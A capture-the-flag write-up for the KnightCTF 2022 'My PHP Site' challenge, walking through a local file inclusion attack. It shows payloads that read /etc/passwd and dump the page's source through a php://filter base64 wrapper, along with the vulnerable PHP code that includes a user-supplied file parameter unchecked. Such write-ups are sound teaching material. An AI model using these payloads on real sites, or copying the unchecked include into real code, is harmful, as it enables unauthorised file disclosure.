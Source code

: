 <h1>My PHP Site ( KnightCTF 2022 )</h1>
<h5>Author: TareqAhmed</h5>


Hey there, this is my first CTF writeup.<br/><br/>
So follwoing the link of challenge we find ourself in a webpage, which contains:<br/><br/>
![Alt Text](img/php.png)
<br/><br/>
As you may already know, php based websites are full of vulnerabilities.<br/><br/>
Getting a closer look at the link, we see the parameter: `/?file=index.html`<br/><br/>
Immediatly we think about an LFI ( Local File Inclusion ).<br/><br/>
Let's try getting something with it:<br/><br/>
`/?file=/etc/passwd`<br/><br/>
YEP, we got an LFI, nothing to find on the /etc/passwd though.<br/><br/>
Let's try getting the source code:<br/><br/>
`/?file=index.php`<br/><br/>
We get some kind of error<br/><br/>
![Alt Text](img/err.png)<br/><br/>
hmmm I wonder why, most likely due to the large size of the index.php file....let's use a php filter, the base64 one for example.<br/><br/>
`/?file=php://filter/convert.base64-encode/resource=index.php`<br/><br/>
We got the source code, b64 encoded:<br/><br/>
```PD9waHAKCmlmKGlzc2V0KCRfR0VUWydmaWxlJ10pKXsKICAgIGlmICgkX0dFVFsnZmlsZSddID09ICJpbmRleC5waHAiKSB7CiAgICAgICAgZWNobyAiPGgxPkVSUk9SISE8L2gxPiI7CiAgICAgICAgZGllKCk7CiAgICB9ZWxzZXsKICAgICAgICBpbmNsdWRlICRfR0VUWydmaWxlJ107CiAgICB9Cgp9ZWxzZXsKICAgIGVjaG8gIjxoMT5Zb3UgYXJlIG1pc3NpbmcgdGhlIGZpbGUgcGFyYW1ldGVyPC9oMT4iOwoKICAgICNub3RlIDotIHNlY3JldCBsb2NhdGlvbiAvaG9tZS90YXJlcS9zM2NyRXRfZmw0OS50eHQKfQoKPz4KCjwhRE9DVFlQRSBodG1sPgo8aHRtbCBsYW5nPSJlbiI```<br/><br/>
Let's decode it from base64.<br/><br/>
`base64 -d index`<br/><br/>
We get the php source code.<br/><br/>
```<?php

if(isset($_GET['file'])){
    if ($_GET['file'] == "index.php") {
        echo "<h1>ERROR!!</h1>";
        die();
    }else{
        include $_GET['file'];
    }

}else{
    echo "<h1>You are missing the file parameter</h1>";

    #note :- secret location /home/tareq/s3crEt_fl49.txt
}

?>
```
Straight to the flag!<br/><br/>
`/?file=s3crEt_fl49.txt`<br/><br/>
Bingo<br/><br/>
![Alt Text](img/flag.png)<br/><br/>

